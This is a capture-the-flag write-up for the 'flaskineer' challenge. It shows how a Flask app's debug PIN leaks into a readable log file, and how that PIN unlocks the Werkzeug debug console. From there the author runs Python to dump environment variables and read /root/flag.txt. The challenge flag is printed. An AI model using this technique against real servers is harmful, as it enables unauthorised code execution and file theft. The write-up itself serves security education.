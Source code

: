 # flaskineer

[library.m0unt41n.ch/challenges/flaskineer](https://library.m0unt41n.ch/challenges/flaskineer) ![](../../resources/misc.svg) ![](../../resources/easy.svg) 

# TL;DR

We get a webapp URL and SSH login. The webapp gets us a simple `Hello, AI!` greeting.

# Initial look

Let's login with SSH and look around:

```
$ ps auxww
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   4364  3004 ?        Ss   06:26   0:00 /bin/bash ./start.sh
root           7  0.0  0.1 182948 30100 ?        S    06:26   0:00 /usr/bin/python3 /opt/flaskineer/app.py
root           8  0.0  0.0  15432  9168 ?        S    06:26   0:00 sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
root           9  0.0  0.0  15924  9656 ?        Ss   06:26   0:00 sshd: lettuce [priv]
lettuce       20  0.0  0.0  16184  7176 ?        R    06:26   0:00 sshd: lettuce@pts/0
lettuce       21  0.0  0.0   2892  1000 pts/0    Ss   06:26   0:00 -sh
lettuce       60  0.0  0.0   7484  3240 pts/0    R+   06:35   0:00 ps auxww
```

At this point I tried poking in `/proc/*/environ`, but that was locked.

# The app

But the actual app code is readable:

`/opt/flaskineer/start.sh`
```bash
#!/bin/bash
/usr/bin/python3 /opt/flaskineer/app.py &
/usr/sbin/sshd -D
```

`/opt/flaskineer/app.py`
```python
from flask import Flask, request
import logging
from werkzeug.debug import DebuggedApplication

app = Flask(__name__)
logging.basicConfig(filename='/var/log/flaskineer.log', level=logging.DEBUG)

@app.route('/')
def main():
    app.logger.info('Hello, AI request received!')
    return 'Hello, AI!'

@app.route('/reproduce')
def reproduce():
    dna_data = int(request.args.get("data"))
    app.logger.info(f"Trying to reproduce using: {dna_data}")
    return 'Reproducing in progress...'

if __name__ == "__main__":
    app.debug = True
    if app.debug:
        debugger = DebuggedApplication(app, evalex=True)
        pin = debugger.pin
        app.logger.debug(f"Flask Debugging PIN: {pin}")
        print(f"Flask Debugging PIN: {pin}")

    app.run(host='0.0.0.0', port=5000, use_reloader=False) 
```

So it's Flask running **with enabled debug console**. And there is a log, which is accessible too:

`/var/log/flaskineer.log`
```
DEBUG:app:Flask Debugging PIN: 408-687-756
INFO:werkzeug:WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:5000
 * Running on http://10.42.0.199:5000
INFO:werkzeug:Press CTRL+C to quit
INFO:app:Hello, AI request received!
INFO:werkzeug:10.42.0.45 - - [26/Aug/2024 06:27:03] "GET / HTTP/1.1" 200 -
INFO:werkzeug:10.42.0.45 - - [26/Aug/2024 06:27:03] "GET /favicon.ico HTTP/1.1" 404 -
```

And indeed, going to
[https://xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx.library.m0unt41n.ch:1337/console](https://xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx.library.m0unt41n.ch:1337/console)
with that PIN gets us Flask debug console. From here it's easy.

# Getting the flag

Is it in the environ? Nope:

```python
>>> print(os.environ)
environ({'KUBERNETES_SERVICE_PORT_HTTPS': '443', 'CHALLENGE_NAMESPACE': 'challenge-daf98fa3-34a9-4e5e-81f7-78bdd19dc6fe', 'KUBERNETES_SERVICE_PORT': '443', 'HOSTNAME': 'flaskineer', 'PWD': '/opt/flaskineer', 'HOME': '/root', 'KUBERNETES_PORT_443_TCP': 'tcp://10.43.0.1:443', 'SHLVL': '0', 'KUBERNETES_PORT_443_TCP_PROTO': 'tcp', 'KUBERNETES_PORT_443_TCP_ADDR': '10.43.0.1', 'KUBERNETES_SERVICE_HOST': '10.43.0.1', 'KUBERNETES_PORT': 'tcp://10.43.0.1:443', 'KUBERNETES_PORT_443_TCP_PORT': '443', 'PATH': '/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin', '_': '/usr/bin/python3', 'LC_CTYPE': 'C.UTF-8', 'WERKZEUG_SERVER_FD': '4'})
```

Is it in the root directory? Yes:

```python
>>> os.listdir("/root")
['.profile', '.bashrc', 'flag.txt', '.cache']

>>> with open("/root/flag.txt", "r") as f:
...   print(f.read())
cyberskills23{quack_quack_im_a_debug_duck}
```

---

## `cyberskills23{quack_quack_im_a_debug_duck}`



<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
